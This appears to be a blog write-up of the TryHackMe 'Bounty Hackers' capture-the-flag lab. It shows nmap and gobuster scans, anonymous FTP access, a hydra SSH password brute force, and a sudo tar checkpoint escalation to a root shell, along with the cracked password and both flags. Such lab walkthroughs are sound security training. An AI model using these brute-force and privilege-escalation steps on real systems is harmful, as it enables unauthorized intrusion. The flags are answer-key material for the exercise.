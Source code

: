 ```yaml
---
title: "TryHackMe Bounty Hackers CTF"
date: 2022-11-13 17:49:00 +0100
categories: [TryHackMe, CTF]
tags: [tryhackme, ctf, hacking, kali linux, offensive]     # TAG names should always be lowercase
---
```



My Write-up of the TryHackMe CTF Bounty Hackers:

## Scan
First I start with a nmap scan. I like to use the -A (equivalent to -sV -O -sC --traceroute) flag and scan all ports (-p-):

```bash
$ nmap -A -p- 10.10.162.62 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-10 09:45 EST
Nmap scan report for 10.10.162.62
Host is up (0.031s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can´t get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.5.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn´t have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.33 seconds
```

3 open ports, one website on port 80, ftp and ssh.
So let´s start with the website and check it out:

![bounty hackers website](/assets/img/post-images/bounty-hackers.png)

I used gobuster for directory scanning:

```bash
$ gobuster dir -u http://10.10.162.62  -w /usr/share/wordlists/dirbuster/directory-1ist-2.3-medium.txt 
============================================================
Gobuster v3.1.0 
by OJ Reeves (@TheClonia1) & Christian Mehlmauer (@firefart)
============================================================
[+] Url:                    http://10.10.162.62 
[+] Method :                GET
[+] Threads:                10
[+] Wordlist:               /usr/share/word1ists/dirbuster/directory-1ist-2.3-medium.txt
[+] Negative Status codes:  404
[+] User Agent:             gobuster/3.1.0
[+] Timeout:                10s
============================================================
2022/11/10 09:46:37 Starting gobuster in directory enumeration mode 
============================================================
/images             (Status: 301) [Size: 313] [--> http://10.10.162.62/images/] 
Progress: 1062 / 220561 (0.48%) 
```
## Enumeration

Even though I let it finish, I didn´t find anything of interest.
So on to the next option, FTP. In the nmap scan we saw that anonymous login is enabled, so let´s log in:
```bash
$ ftp 10.10.162.62 21
Connected to 10.10.162.62.
220 (vsFTPd 3.0.3)
Name (10.10.162.62:krussve): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||44405|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*************************************************************************************|   418        9.82 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (5.52 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*************************************************************************************|    68        1.01 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.68 KiB/s)
ftp> 
```

Looking at the first file we have a bunch of words, which look a lot like potential passwords:
```bash
$ cat locks.txt                          
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

Through the second file we get a username 'lin':
```bash
$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
## Initial access
We have everything we need to try and attack SSH using hydra:
```bash
$ hydra -l lin -P locks.txt 10.10.162.62 ssh                           
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-10 10:02:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.162.62:22/
[22][ssh] host: 10.10.162.62   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-10 10:02:29
```

And we´ve got: login: lin   password: RedDr4gonSynd1cat3. <br>
Now just login to SSH:
```bash
$ ssh lin@10.10.162.62           
The authenticity of host '10.10.162.62 (10.10.162.62)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.162.62' (ED25519) to the list of known hosts.
lin@10.10.162.62's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
```
## Privilege Escalation
We immediately got the user flag. Now we start with privilege escalation to become root.
I usually start out by checking ```sudo -l``` and got lucky.
We can abuse the tar functionality of setting checkpoints. the ```checkpoint=1```creates the checkpoint before reading the Nth record. In our case the checkpoint is done immediately. The ```--checkpoint-action=exec=/bin/sh``` is an action done within that checkpoint. In our case we create a shell and since the process is executedwith sudo, we get root access, hurray!
So just find the root directory and then the flag.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# ls
user.txt
# whoami
Root
# cd ..
# ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
# cd ..
# ls
lin
# cd ..
# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
# cd root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
```